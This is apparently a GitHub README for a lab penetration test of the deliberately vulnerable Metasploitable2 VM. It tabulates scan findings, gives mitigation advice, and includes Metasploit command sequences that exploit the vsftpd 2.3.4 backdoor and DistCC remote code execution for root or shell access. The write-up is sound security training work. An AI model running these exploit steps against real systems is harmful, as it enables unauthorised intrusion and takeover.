 # Penetration Testing on Metasploitable2

## Overview
This project involves conducting penetration testing on the Metasploitable2 virtual machine using **Kali Linux**. The main objective was to identify, analyze and exploit vulnerabilities in web and network services while documenting findings and mitigation strategies.

## Tools Used
- **Metasploitable2**: A vulnerable Linux VM used as the target.
- **Kali Linux**: The attacker machine.
- **Nikto**: Web vulnerability scanner.
- **OpenVAS**: Network vulnerability assessment tool.
- **Metasploit Framework**: Exploitation tool.
- **Nmap**: Network scanner.


## 📊 Vulnerabilities Discovered

### 🔍 **Web Vulnerabilities (Nikto Scan)**
| **Vulnerability** | **CWE ID** | **Description** | **Risk Level** |
|------------------|-----------|----------------|---------------|
| **Clickjacking** | CWE-1021 | X-Frame-Options header missing, allowing UI redress attacks. | Medium |
| **Directory Browsing** | - | Allows browsing of sensitive files that attackers can access. | Medium |

### 🔍 **Network Vulnerabilities (OpenVAS Scan)**
| **Vulnerability** | **CVE ID** | **Description** | **Risk Level** |
|------------------|-----------|----------------|---------------|
| **DistCC Remote Code Execution (RCE)** | CVE-2004-2687 | Attackers can execute arbitrary commands remotely. | High |
| **vsftpd 2.3.4 Backdoor** | CVE-2011-2523 | Backdoor in vsftpd allows unauthorized root access. | Critical |
| **OpenSSL MITM Attack** | CVE-2014-0224 | SSL/TLS vulnerability allowing encrypted traffic interception. | High |

---

## 💻 Exploitation Demonstrations
### **1️⃣ Exploiting vsftpd 2.3.4 Backdoor**
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <Metasploitable_IP>
exploit
whoami  # Confirms root access


### 2️⃣ Exploiting DistCC RCE
msfconsole
use exploit/unix/misc/distcc_exec
set RHOST <Metasploitable_IP>
set LHOST <Attacker_IP>
exploit
whoami  # Confirms access

```

## 🔐 Security Recommendations
To mitigate these vulnerabilities, the following security measures should be implemented:

### For Web Vulnerabilities:
✅ Enable X-Frame-Options to protect against clickjacking.  
✅ Disable directory listing in Apache/Nginx configurations.  
✅ Implement Content Security Policy (CSP) to control how resources are loaded.  

### For Network Vulnerabilities:
✅ Patch vsftpd 2.3.4 to the latest version.  
✅ Disable unused services like DistCC to minimize attack surface.  
✅ Use strong encryption (TLS 1.2/1.3) instead of outdated OpenSSL versions.  

### General Recommendations:
✅ Use a Web Application Firewall (WAF).  
✅ Regularly scan for vulnerabilities using OpenVAS and Nikto.  
✅ Implement strict access controls and monitoring.  

---

## Project Structure
Penetration-Testing-Metasploitable2/
│── README.md  # Project Documentation
│── Final_MetasplotableReport.pdf  # Full project report
│── screenshots/
│   ├── nikto_scan.png
│   ├── openvas_results.png
│   ├── metasploit_exploit.png
│── scripts/
│   ├── metasploit_vsftpd_exploit.rc


## Resources
Here are some useful resources for further learning:

- 📌 [Metasploitable2 VM](https://sourceforge.net/projects/metasploitable/)
- 📌 [Kali Linux](https://www.kali.org/)
- 📌 [Metasploit Framework](https://www.rapid7.com/products/metasploit/)
- 📌 [Nikto Web Scanner](https://cirt.net/nikto2)
- 📌 [OpenVAS Scanner](https://www.openvas.org/)




